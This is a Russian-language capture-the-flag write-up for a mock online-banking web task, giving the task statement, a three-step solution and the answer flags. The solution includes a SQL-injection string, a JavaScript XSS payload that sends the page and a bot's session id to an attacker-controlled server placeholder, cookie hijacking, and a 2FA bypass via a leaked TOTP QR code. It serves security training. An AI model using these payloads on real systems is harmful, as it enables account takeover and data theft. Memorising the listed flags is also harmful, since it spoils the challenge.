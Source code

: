 # web-ebanking


## Условие
Перед вами сайт ЛКЛ-Банка. Над ним работали лучшие программисты и специалисты
по безопасности, так что, вне всякого сомнения, он сделан надёжно и безопасно.

Или нет?

https://здесь.будет.сайт


## Решение
**Шаг 0. Получение исходников**. DirBuster находит путь `/info`, по которому доступны полные исходники сайта

**Шаг 1. SQL-инъекция**. В форме получения сведений о пользователе есть SQL-инъекция. Инъектируем в поле ввода
имени пользователя что-то вроде `" OR username = "user1` и получаем хэш пароля пользователя `user1`, а также узнаём,
что 2FA у него отключена. Аналогично, то же самое делаем для пользователей `smart_bot` и `admin` (у admin'а 2FA включена).
Хэш подбирается только `user1`, и его пароль — `simplicity`. В его личном кабинете получаем первый флаг

**Шаг 2. XSS**. Вбиваем в личном кабинете в строку поиска что-либо: видим, что HTML-код "проверяется smart_bot'ом".
Смотрим исходники — smart_bot тупо загружает полученный им html-код в браузер, подставляя туда также свой id сессии.
Но в html-коде, который вставляется браузер, присутствует и запрос в строке поиска без эскейпинга. Проводим XSS:
вставляем это в строку поиска:

```html
<script>
setTimeout(
    function() {
        let x = new XMLHttpRequest();
        x.open(
            'GET',
            `https://<some_local_http_server>/${encodeURIComponent(document.documentElement.innerHTML)}`,
            true
        );
        x.send();
    },
    1000
)
</script>
```

где `<some_local_http_server>` — это любой подконтрольный вам доступный извне сервер, логгирующий запросы.
Например, можно использовать локальный HTTP-сервер и localtunnel с ключом `--print-requests`. В реквесте к
этому серверу будет закодирован отображаемый документ полностью, включая id сессии smart_bot'а. Подставляем его в куки
и "входим" как smart_bot. В личном кабинете нас ждёт второй флаг и пароль админа

***FIXME:*** если какой-то из игроков разлогинится за smart_bot, то для остальных таск станет нерешаемым

**Шаг 3. Взлом 2FA**. У админа настроен 2FA, так что просто пароля не хватит. Однако если внимательно изучить главную
страницу, можно найти комментарий:
`<!-- static/image-512df359789cee50e97f40d25272c0b84d94459bc8631ce32132a5942f022d77.png -->`

Подставляем URL — видим QR-код. Сканируем — что-то, связанное с `totp`. Значит, это ключ для 2FA. Берём любой
TOTP-клиент (Google Authenticator, Authy, Aegis, etc.), сканируем QR-код, получаем доступ к 2FA. Заходим и видим третий
и последний флаг.


## Флаги
- `LKLCTF{1_of_3__beb19c847ea31f34d62cbbcb7c16dd52}`
- `LKLCTF{2_of_3__eeb328263989e16eb39bf80ed6de790c}`
- `LKLCTF{3_of_3__436410a01b9f7ac7682b278aa9963731}`


## TODO
- Написать более подробное решение
